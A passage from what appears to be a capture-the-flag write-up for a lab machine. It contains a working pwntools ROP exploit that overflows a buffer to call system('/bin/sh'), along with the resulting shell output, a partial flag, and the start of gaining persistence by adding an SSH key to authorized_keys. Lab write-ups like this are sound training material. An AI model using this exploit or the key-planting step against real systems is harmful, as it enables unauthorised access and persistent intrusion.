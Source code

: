 ```

#!/usr/bin/env python

from pwn import *

context(os="linux", arch="amd64")

binsh = "/bin/sh\x00"
junk = "A"*(120 - len(binsh))
plt_system = p64(0x401040)
test = p64(0x401152)
pop_r13_r14_r15 = p64(0x401206)

payload = junk + binsh + pop_r13_r14_r15 + plt_system + p64(0) + p64(0) + test

p = remote("10.10.10.147", 1337)
p.recvline()
p.sendline(payload)
p.interactive()

```

And it also gets a shell:

```

root@kali# ./pwn_safe-m3.py 
[+] Opening connection to 10.10.10.147 on port 1337: Done
[*] Switching to interactive mode
$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)

```

### Flag

With any of the three shells, I can grab `user.txt`:

```

$ cat /home/user/user.txt
7a29ee9b...

```

### Shell Upgrade

The box is quite bare. No `python`, `python3`, `nc`. But ssh is listening, so I’ll drop my public key into the `authorized_keys` file and connect over ssh to get a full shell:

```

root@kali# cat ~/id_rsa_generated.pub | base64 -w0
c3NoLXJzYSBBQUFBQjNOemFDMXljMkVBQUFBREFRQ...[snip]...

```
